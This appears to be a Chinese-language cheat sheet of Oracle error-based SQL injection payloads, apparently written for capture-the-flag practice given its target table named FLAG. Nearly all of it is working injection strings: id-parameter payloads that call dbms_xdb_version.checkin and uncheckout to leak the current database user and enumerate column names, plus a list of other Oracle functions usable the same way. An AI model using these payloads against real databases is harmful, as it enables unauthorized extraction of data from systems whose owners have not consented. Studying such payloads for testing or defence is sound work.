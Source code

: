 #### 报错注入

```sql
//dbms_xdb_version.checkin()
#sql:
select dbms_xdb_version.checkin(select sys_context('USERENV','CURRENT_USER') FROM dual) from dual;
#payload(1):
?id=-1 and (select dbms_xdb_version.checkin((select sys_context('USERENV','CURRENT_USER') from dual)) from dual) is not null -- +
#payload(2):
?id=-1 and (select dbms_xdb_version.checkin((select CAST(column_name as varchar(400)) from (select column_name,rownum as LIMIT from (select DISTINCT(column_name) from user_tab_columns where table_name='FLAG')) where LIMIT=2)) from dual) is not null -- +


//bms_xdb_version.uncheckout()
#sql:
select dbms_xdb_version.uncheckout(select sys_context('USERENV','CURRENT_USER') FROM dual) from dual;
#payload(1):
?id=-1 and (select dbms_xdb_version.uncheckout((select user from dual)) from dual) is not null -- +
#payload(2):
?id=-1 and (select dbms_xdb_version.uncheckout((select sys_context('USERENV','CURRENT_USER') from dual)) from dual) is not null -- +
#payload(3):
?id=-1 and (select dbms_xdb_version.uncheckout((select CAST(column_name as varchar(400)) from (select column_name,rownum as LIMIT from (select DISTINCT(column_name) from user_tab_columns where table_name='FLAG')) where LIMIT=3)) from dual) is not null -- +


//utl_inaddr.get_host_name()
#paylaod
select utl_inaddr.get_host_name('主机') from dual;

//dbms_xdb_version_.makeversioned()
//dbms_utility.sqlid_to_sqlhash()
//ordsys.ord_dicom.getmappingxpath()
//ctxsys.drithsx.sn()
```

![image-20210719173048027](websafe/image-20210719173048027.png)
